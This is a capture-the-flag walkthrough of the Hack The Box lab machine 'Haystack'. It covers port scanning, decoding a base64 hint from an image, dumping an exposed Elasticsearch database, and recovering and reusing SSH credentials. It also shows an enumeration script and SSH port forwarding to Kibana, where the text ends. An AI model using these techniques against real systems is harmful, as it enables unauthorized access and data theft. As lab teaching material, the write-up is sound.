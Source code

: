 <center><h1>Haystack</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>

Start off with an Nmap scan

```
# Nmap 7.70 scan initiated Tue Jul  2 13:01:19 2019 as: nmap -sV -sC -T4 10.10.10.115
Nmap scan report for 10.10.10.115
Host is up (0.21s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: 502 Bad Gateway

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  2 13:01:49 2019 -- 1 IP address (1 host up) scanned in 30.16 seconds
```
A few ports open but it looks like there are two <b>http</b> ports. Navigating to <b>http://10.10.10.115</b> I am greeted with only a picture of a needle.

<center><img src="/htb/haystack/needle.png"></center>
<br>
If I download the image and look at it with <b>strings</b> I find a <b>base64</b> encoded string at the bottom.
```
# wget http://10.10.10.115/needle.jpg
--2019-09-21 22:32:17--  http://10.10.10.115/needle.jpg
Connecting to 10.10.10.115:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 182982 (179K) [image/jpeg]
Saving to: ‘needle.jpg’

needle.jpg                                100%[===================================================================================>] 178.69K   709KB/s    in 0.3s    

2019-09-21 22:32:19 (709 KB/s) - ‘needle.jpg’ saved [182982/182982]
```
<b>Strings</b>
```
bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
```
And if we <b>base64</b> decode that string we get a message.
```
# echo "bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==" | base64 -d
la aguja en el pajar es "clave"
```
The message translates to <b>The needles in the haystack is "key"</b>.

For now I can't do anything with that information so I now check out port 9200. First thing I see is some json data refering to <b>elasticsearch v6.4.2</b>
```
name	"iQEYHgS"
cluster_name	"elasticsearch"
cluster_uuid	"pjrX7V_gSFmJY-DxP4tCQg"
version
number	"6.4.2"
build_flavor	"default"
build_type	"rpm"
build_hash	"04711c2"
build_date	"2018-09-26T13:34:09.098244Z"
build_snapshot	false
lucene_version	"7.4.0"
minimum_wire_compatibility_version	"5.6.0"
minimum_index_compatibility_version	"5.0.0"
tagline	"You Know, for Search"
```
I have no idea what <b>elasticsearch</b> is so I do some reading on it. Turns out you can interact with it and dump all of the <b>json</b> data that is stored. To do this I am going to use *[this](https://github.com/taskrabbit/elasticsearch-dump)*. After downloading and installing everything I dump all the data
```
./elasticdump --input=http://10.10.10.115:9200 --output=/root/Downloads/dump --type=data
Sun, 22 Sep 2019 03:15:18 GMT | starting dump
Sun, 22 Sep 2019 03:15:19 GMT | got 100 objects from source elasticsearch (offset: 0)
Sun, 22 Sep 2019 03:15:19 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:19 GMT | got 100 objects from source elasticsearch (offset: 100)
Sun, 22 Sep 2019 03:15:19 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:19 GMT | got 100 objects from source elasticsearch (offset: 200)
Sun, 22 Sep 2019 03:15:19 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:19 GMT | got 100 objects from source elasticsearch (offset: 300)
Sun, 22 Sep 2019 03:15:19 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:20 GMT | got 100 objects from source elasticsearch (offset: 400)
Sun, 22 Sep 2019 03:15:20 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:20 GMT | got 100 objects from source elasticsearch (offset: 500)
Sun, 22 Sep 2019 03:15:20 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:24 GMT | got 100 objects from source elasticsearch (offset: 600)
Sun, 22 Sep 2019 03:15:24 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:24 GMT | got 100 objects from source elasticsearch (offset: 700)
Sun, 22 Sep 2019 03:15:24 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:24 GMT | got 100 objects from source elasticsearch (offset: 800)
Sun, 22 Sep 2019 03:15:24 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:25 GMT | got 100 objects from source elasticsearch (offset: 900)
Sun, 22 Sep 2019 03:15:25 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:25 GMT | got 100 objects from source elasticsearch (offset: 1000)
Sun, 22 Sep 2019 03:15:25 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:29 GMT | got 100 objects from source elasticsearch (offset: 1100)
Sun, 22 Sep 2019 03:15:29 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:29 GMT | got 54 objects from source elasticsearch (offset: 1200)
Sun, 22 Sep 2019 03:15:29 GMT | sent 54 objects to destination file, wrote 54
Sun, 22 Sep 2019 03:15:29 GMT | got 0 objects from source elasticsearch (offset: 1254)
Sun, 22 Sep 2019 03:15:29 GMT | Total Writes: 1254
Sun, 22 Sep 2019 03:15:29 GMT | dump complete
```
Now we can use the message from the picture to help us find credentials. Just <b>grep</b> for the word <b>clave</b>.
```
# grep clave dump
{"_index":"quotes","_type":"quote","_id":"111","_score":1,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}
{"_index":"quotes","_type":"quote","_id":"45","_score":1,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}}
```
So there are two different credentials but they are both encoded in <b>base64</b> so we just need to decode it
```
# echo dXNlcjogc2VjdXJpdHkg | base64 -d
user: security

# echo cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 -d
pass: spanish.is.key
```
We can now use the username <b>security</b> and password <b>spanish.is.key</b> to ssh in.
```
# ssh security@10.10.10.115
security@10.10.10.115's password:
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$
```
From here you can read the <b>user.txt</b> file.
```
[security@haystack ~]$ ls
user.txt
[security@haystack ~]$ cat user.txt
04d18bc79dac1d4***************
```
Next step is to run an enumeration script. Normally I would run <b>LinEnum.sh</b> but since I know the password to the user I am going to use *[this script](https://github.com/diego-treitos/linux-smart-enumeration)*.
```
# scp lse.sh security@10.10.10.115:/home/security
security@10.10.10.115's password:
lse.sh                                                                                             100%   30KB 226.2KB/s   00:00    
```
Two things we see is that there is another user <b>kibana</b> and that there is a service running on <b>127.0.0.1:5601</b>. If you google the port number you will see that kibana runs on that port. To make my life easier I am going to port forward the Kibana service from the box to my own machine using SSH
```
# ssh -L 5601:127.0.0.1:5601 security@10.10.10.115
security@10.10.10.115's password:
Last login: Sun Sep 22 00:34:23 2019 from 10.10.14.21
[security@haystack ~]$
```
Now if we navigate to <b>127.0.0.1:5601</b> on our local machine then you should have access to the kibana service.

<center><img src="/htb/haystack/kibana.png"></center>
<br>
